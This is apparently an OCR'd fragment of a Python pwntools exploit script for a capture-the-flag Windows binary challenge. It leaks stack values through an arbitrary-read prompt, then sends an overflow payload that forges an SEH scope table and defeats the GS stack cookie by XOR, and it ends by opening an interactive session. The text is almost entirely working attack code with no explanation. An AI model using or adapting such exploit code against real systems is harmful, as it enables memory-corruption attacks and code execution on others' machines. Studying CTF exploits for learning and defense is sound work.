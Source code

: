```python
#print hex(cookie)

p.recvuntil("Do you want to know more?\n")
p.sendline("yes")
p.recvuntil("Where do you want to know?\n")
p.sendline(str(stack1))
p.recvuntil("is ")
stack11=int(p.recvuntil("\n"),16)
#print hex(stack11)

p.recvuntil("Do you want to know more?\n")
p.sendline("yes")
p.recvuntil("Where do you want to know?\n")
p.sendline(str(stack2))
p.recvuntil("is ")
stack22=int(p.recvuntil("\n"),16)
#print hex(stack22)

p.recvuntil("Do you want to know more?\n")
p.sendline("yes")
p.recvuntil("Where do you want to know?\n")
p.sendline(str(stack3))
p.recvuntil("is ")
stack33=int(p.recvuntil("\n"),16)
#print hex(stack33)

p.recvuntil("Do you want to know more?\n")
p.sendline("yes")
p.recvuntil("Where do you want to know?\n")
p.sendline(str(stack4))
p.recvuntil("is ")
stack44=int(p.recvuntil("\n"),16)
#print hex(stack44)

payload = "A" * 4 
payload += SEH_scope_table
payload += "A" * 112
#payload = "A" * 4
#payload = "A" * 4
#payload = "A" * 4
payload += p32(stack11)
payload += p32(stack22) 
payload += p32(stack33) 
payload += p32(stack44) 
payload += p32(main_addr+0x1019A30-0x101395E) 
payload += p32(cookie^GS_addr) 
payload += p32(0)

#pause()

p.recvuntil("Where do you want to know?\n")
p.sendline("aaa")
p.sendline(payload)
p.recvuntil("Do you want to know more?\n")
p.sendline("yes")
p.recvuntil("Where do you want to know?\n")
p.sendline("aaa")

p.interactive()
```

